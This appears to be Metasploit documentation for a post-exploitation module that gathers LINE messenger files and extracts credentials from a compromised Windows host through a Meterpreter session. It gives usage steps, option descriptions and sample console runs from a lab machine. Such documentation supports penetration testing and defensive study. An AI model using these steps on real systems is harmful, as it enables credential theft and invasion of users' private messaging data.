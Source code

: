 ## Module Description

This post-exploitation module gathers artifacts found on LINE related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/line
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054823_default_192.168.56.106_line24348280.png_031858.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line16188.png_166694.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line47976.png_270633.png

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line24348280.png_472404.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line16188.png_355604.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line47976.png_481503.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3059\1\765251.png
[*] Line 765251.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line765251.png_881563.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3590\1\2872642.png
[*] Line 2872642.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line2872642.png_628173.png


[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```